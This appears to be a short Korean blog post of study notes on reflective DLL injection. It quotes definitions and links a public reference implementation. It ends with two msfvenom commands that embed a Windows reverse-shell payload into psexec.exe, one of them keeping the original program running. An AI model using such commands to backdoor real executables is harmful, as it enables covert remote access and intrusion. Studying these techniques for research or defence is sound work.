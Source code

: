 ```yaml
---
layout: post
title: "Reflective DLL Injection"
date: 2013-08-29 13:00
comments: true
categories: 
---
```


손을 대야 할 것들이

* Reflective DLL injection
* Dynamic forking
* Inline hooking

[stephenfewer/ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
을 읽고.

    Reflective DLL injection is a library injection technique in which the concept
    of reflective programming is employed to perform the loading of a library from
    memory into a host process.

Reflective programming 이라 함은, 

    In computer science, reflection is the ability of a computer program to
    examine and modify the structure and behavior (specifically the values,
    meta-data, properties and functions) of an object at runtime.

우선 Metasploit Patch

    msfvenom -p windows/shell_reverse_tcp -x psexec.exe ... The overwrite program entry method
    msfvenom -p windows/shell_reverse_tcp -x psexec.exe -k ... The aloocate and create thread and return to original program entry method (Keep)
